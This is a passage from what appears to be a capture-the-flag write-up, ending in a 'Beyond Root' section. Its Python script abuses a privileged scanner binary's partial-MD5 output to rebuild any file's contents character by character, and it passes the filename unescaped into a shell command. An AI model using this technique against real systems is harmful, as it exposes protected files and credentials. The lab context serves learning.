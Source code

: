 ![](screenshots/20-root-shell.png)

# BEYOND ROOT

After the challenge was solved, a friend of mine developed a "master" script to read all files. This could be used on the victim's machine.

```python
import os
import hashlib

def find_character(prefix, md5_hash):
    for char in range(256):
        test_string = prefix + chr(char)
        hashed_string = hashlib.md5(test_string.encode()).hexdigest()
        if hashed_string == md5_hash:
            return chr(char)
    return None

def get_hash(file, length):
    data = os.popen(f"/opt/scanner/scanner -p -s e76884da2fd0ccf43b73c42f22d72e05 -c {file} -l {length}").read()
    return data.split("\n")[0].split()[-1]

file = input("File: ")
content = ""
cont = 1

while True:
    partial_hash = get_hash(file, cont)
    new_char = find_character(content, partial_hash)
    if not new_char:
        break
    
    content += new_char
    cont += 1
    print(content)
```